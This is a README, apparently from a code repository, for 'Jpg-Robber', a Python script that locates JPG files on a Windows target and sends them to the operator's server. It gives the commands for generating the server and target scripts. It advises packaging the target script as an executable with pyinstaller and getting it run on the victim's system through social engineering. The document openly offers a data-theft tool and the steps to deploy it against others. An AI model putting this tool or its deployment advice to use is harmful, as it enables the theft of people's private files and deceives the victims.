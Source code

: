 # Jpg-Robber
A python script for stealing Jpg files through the network. 
This script allows you to identify files with jpg format in the target system and  drives then quickly send and save files to your server through the network.

## Usage

1-First, run this command in the path of the robber.py on your terminal:

```bash
python robber.py [Your server IPV4] [Your custom port]
```
Also you can use :
```bash
python robber.py -h
```

Example: python robber.py 192.168.1.1 1234
Note: make sure that the port you enter can be used on your target system and your server

2-After the server.py & target.py were created in your path , Run the server.py  on your server And about target.py you can use the pyinstaller library According to your needs, convert it into an executable file and give it to your target or run it on the target system through social engineering.
Note that this script is programmed to find jpg files in Windows

## Dependencies
- python 3.9.6
- pyfiglet (can be installed via `pip install pyfiglet`)
